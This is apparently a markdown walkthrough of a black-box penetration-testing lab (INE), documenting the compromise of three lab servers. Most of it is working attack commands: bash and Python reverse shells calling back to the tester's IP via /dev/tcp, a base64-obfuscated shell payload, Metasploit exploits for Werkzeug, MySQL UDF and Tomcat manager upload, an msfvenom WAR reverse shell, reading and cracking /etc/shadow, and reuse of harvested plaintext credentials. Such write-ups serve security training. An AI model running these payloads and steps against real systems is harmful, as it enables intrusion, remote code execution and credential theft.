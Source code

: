 # BLACK BOX TESTING 3

## GIVEN   
**MY IP ADDRESS**: 192.225.53.2

## PROCEDURE

### Machine 1

Port scan target server1.ine.local
```
nmap --script vuln -sV -p- server1.ine.local
```

![1.1](./imgs/1.1.png)

**OPEN PORTS**:<br>
80 werkzeug httpd 0.9.6 (Python 2.7.13)

**VULNS**:<br>
Dir Traversal (CVE:CVE-2005-3299),<br>
Reverse Proxy Security Bypass (CVE:CVE-2011-3368)

Dir enumeration
```
dirb http://server1.ine.local -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![1.2](./imgs/1.2.png)


Found /console

Reverse shell bash script<br>
-c COMMAND<br>
-i interactive shell
```
bash -i >& /dev/tcp/192.225.53.2/4444 0>&1
```

Reverse shell embedded in python code
```
__import__('os').system("bash -i >& /dev/tcp/192.225.53.2/4444 0>&1")
```

Encode reverse shell
```
echo "bash -i >& /dev/tcp/192.225.53.2/4444 0>&1" | base64
```

**ENCODED SCRIPT**:YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMjI1LjUzLjIvNDQ0NCAwPiYxCg==

Final python script
```
__import__('os').system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMjI1LjUzLjIvNDQ0NCAwPiYxCg== | base64 -d | bash")
```

Start listener
```
nc -lnvp 1234
```

![1.3](./imgs/1.3.png)

or can use metasploit to do same thing

```
searchsploit werkzeug
msfconsole
use exploit/multi/http/werkzeug_debug_rce
set LHOST 192.225.53.2
set RHOSTS server1.ine.local
check
exploit
```

![1.4](./imgs/1.4.png)

Enum user history
```
use post/linux/gather/enum_users_history
set SESSION 1
```

![1.5](./imgs/1.5.png)

auditor and root user bash history found

```
less /root/.msf4/loot/20221004010957_default_192.225.53.3_linux.enum.users_064842.txt
```

mysql login found

![1.6](./imgs/1.6.png)

```
mysql -h 192.225.53.4 -u root -pfArFLP29UySm4bZj
show databases
```

![1.7](./imgs/1.7.png)

### Machine 2

Port scan target server2.ine.local
```
nmap --script vuln -sV -p- server2.ine.local
```

![2.1](./imgs/2.1.png)

**OPEN PORTS**:<br>
3306 mysql 5.5.62-0ubuntu.14.04.1

This is the mysql server I found while hacking machine 1

```
searchsploit mysql
msfconsole
use exploit/multi/mysql/mysql_udf_payload 
set FORCE_UDF_UPLOAD true
set RHOSTS 192.225.53.4
set PASSWORD fArFLP29UySm4bZj
set LHOST 192.225.53.2
set LPORT 5555
set TARGET 1
exploit
sessions -i 2
ls /root
cat /root/flag
```
![2.2](./imgs/2.2.png)

**FLAG**: 4c537c0dfd18bafdcd59f53c7015550e

### Machine 3

Port scan target server3.ine.local
```
nmap --script vuln -sV -p- server3.ine.local
```

![3.1](./imgs/3.1.png)

**OPEN PORTS**:<br>
22 OpenSSH 7.2p2 Ubuntu,<br>
8080 http (Apache Tomcat/Coyote JSP engine 1.1)

Enum webpage dirs
```
dirb http://server3.ine.local:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![3.2](./imgs/3.2.png)

Need login information to access manager pages

```
msfconsole
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS server3.ine.local
set STOP_ON_SUCCESS true
exploit
```

![3.3](./imgs/3.3.png)

USERNAME: tomcat<br>
PASSWORD: s3cret

Get meterpreter session
```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS server3.ine.local
set RPORT 8080
set LHOST 192.225.53.2
set LPORT 6666
set HttpPassword s3cret
set HttpUsername tomcat
exploit
```

![3.4](./imgs/3.4.png)

**FLAG**: EBCFE35ACC27E0EA91CF3A5AB600BABE

or can use msfvenom

-p PAYLOAD
-f FORMAT
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.225.53.2 LPORT=7777 -f war > shell.war
file shell.war
```

Upload and deploy on tomcat server

![3.9](./imgs/3.9.png)

Start listener
```
nc -lnvp 7777
```

go to /shell

![3.10](./imgs/3.10.png)

Find a way to escalate privileges
```
cat /etc/shadow
```

![3.6](./imgs/3.6.png)

non-default user robert found

```
download /etc/shadow
john shadow --user=robert
```

Will take too long

or can also find creds in ~/conf/conf.tar.gz

```
download ~/conf/conf.tar.gz
tar -xvf conf.tar.gz
cd conf
cat tomcat-user.xml
```

![3.5](./imgs/3.5.png)

PASSWORD: robert@1234567890!@#

```
ssh robert@server3.ine.local
```

![3.7](./imgs/3.7.png)

**FLAG 2**: EC2986081E84BB845541D5CC0BEE13B3

```
sudo -l
```

robert can run ls with sudo 

![3.8](./imgs/3.8.png)

```
```